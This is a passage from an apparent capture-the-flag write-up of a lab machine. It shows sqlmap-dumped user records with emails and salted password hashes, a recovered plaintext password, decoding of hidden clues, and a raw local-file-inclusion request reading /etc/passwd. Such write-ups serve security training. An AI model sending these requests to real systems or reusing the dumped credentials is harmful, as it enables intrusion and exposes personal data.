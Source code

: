 root@kali32:~/.sqlmap/output/192.168.80.158/dump/secure_login# cat success.csv
id,VXNlcnMudHh0,Y0dGemN5NTBlSFE9
1,lol,lol1

root@kali32:~/.sqlmap/output/192.168.80.158/dump/secure_login# echo VXNlcnMudHh0 | base64 -d
Users.txt

root@kali32:~/.sqlmap/output/192.168.80.158/dump/secure_login# echo Y0dGemN5NTBlSFE9 | base64 -d
cGFzcy50eHQ=

root@kali32:~/.sqlmap/output/192.168.80.158/dump/secure_login# echo cGFzcy50eHQ= | base64 -d
pass.txt

root@kali32:~/.sqlmap/output/192.168.80.158/dump/secure_login# cat members.csv
id,salt,email,username,password
1,f9aab579fc1b41ed0c44fe4ecdbfcdb4cb99b9023abb241a6db833288f4eea3c02f76e0d35204a8695077dcf81932aa59006423976224be0390395bae152d4ef,test@example.com,test_user,00807432eae173f652f2064bdca1b61b290b52d40e429a7d295d76a71084aa96c0233b82f1feac45529e0726559645acaed6f3ae58a286b9f075916ebf66cacc
2,8a93f1fa3259a90d9cfafcc1ef43dfc2d0a2d6cba0e8f2f9c23ae6b701364aa278bf5629585c3663ae3df5c7a3734ca6af4019d7ef897f45cb0acc056c3e735f,acid@gmail.com,Acid,53b9bd4416ec581838c4bde217e09f1206b94cdb95475cddda862894f4dbbeec5ceacc2e116a64cb56d8384404738c5fd16478e0266962eeb3b61da1918d5931
3,be02c5499ba4fd559dc7809a7fae01d6f251e781dbdf5a7af2c7bca320006f1a5275d8020d5c539d116e54b1bf775018349c721151d9111ad1c3da8f6b9c9697,saman.j.l33t@gmail.com,saman,c124191d7a267cb2b83b2c59a30b2e388b77f13955340015462bffc0d90cfa7b402ecb8e3fc82717f22b127c98a4afa9ed4f3661d824c6c57a1490f9963d9234
4,c72ccb8eb5ac065eca5341ff8ed296648b92bc99b511300a4525e8c17679ecce06e8038e582b539acf17008f9fd3a394d912f1158ef7f3d16d5f66ba32ca18bb,vik.create@gmail.com,Vivek,fb8db054a75254633052d951002065109cd96fe990bf5a5d5bd1581d3578235a69224784b29870046d21d95567cdfe292221fbabce17201b23ca0fd5ee4fa20e
{% endcodeblock %}

Because the hashes are salted SHA512, it was not reasonable to crack them. Instead, using google we found the hashes from test_user [here](http://www.wikihow.com/Create-a-Secure-Login-Script-in-PHP-and-MySQL):

{% codeblock %}
Username: test_user
Email: test@example.com
Password: 6ZaxN2Vzm9NUJT2y
{% endcodeblock %}

We log in and proceed to the text step:
{% codeblock %}
http://192.168.80.158:33447/Challenge/
http://192.168.80.158:33447/Challenge/include.php
{% endcodeblock %}

There was `<!--0x5933566a4c6e4a34626e413d-->` on the page, that means after hex/base64/rot13/reverse `cake.php`. 

We identified LFI:
{% codeblock %}
GET /Challenge/include.php?file=/etc/passwd&add=Extract+File HTTP/1.1
Host: 192.168.80.158:33447
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.80.158:33447/Challenge/include.php
Cookie: sec_session_id=f1c3r9m5ud1pdctd6efvgu7ti6
Connection: keep-alive
